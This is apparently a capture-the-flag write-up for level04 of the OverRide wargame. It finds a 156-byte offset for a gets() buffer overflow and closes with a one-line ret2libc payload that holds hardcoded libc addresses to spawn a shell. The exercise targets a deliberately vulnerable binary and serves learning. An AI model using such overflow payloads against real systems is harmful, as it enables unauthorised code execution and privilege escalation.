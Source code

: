 # level04

## using gdb (unnecessary)
follow the child process in gdb:
```
set follow-fork-mode child
```

## the code
A buffer of size 128 seams eager to overflow with data provided by a gets method.
But...
The code hang up the process instead of segfault. With gdb it hand up after the gets for an unknown reason.
But...
Honestly we don't care!


## offset
search for the offset by dichotomy
```sh
level04@OverRide:~$ (python -c 'print("A" * 156)') | ./level04 
Give me some shellcode, k
Give me some shellcode, k
```
offset is 156

## ret2libc
We reuse the addresses found in level01
(python -c 'print("A" * 156 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xec\x97\xf8\xf7")'; cat) | ./level04